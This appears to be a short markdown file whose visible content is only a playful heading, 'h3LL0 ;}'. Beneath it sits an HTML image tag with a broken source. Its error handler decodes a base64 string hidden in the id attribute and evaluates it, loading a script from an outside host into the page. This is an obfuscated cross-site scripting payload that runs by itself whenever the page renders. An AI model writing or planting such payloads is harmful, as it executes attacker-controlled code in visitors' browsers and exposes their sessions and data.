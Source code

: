 # h3LL0 ;}
<img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL25tZGhrciI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs onerror=eval(atob(this.id))>
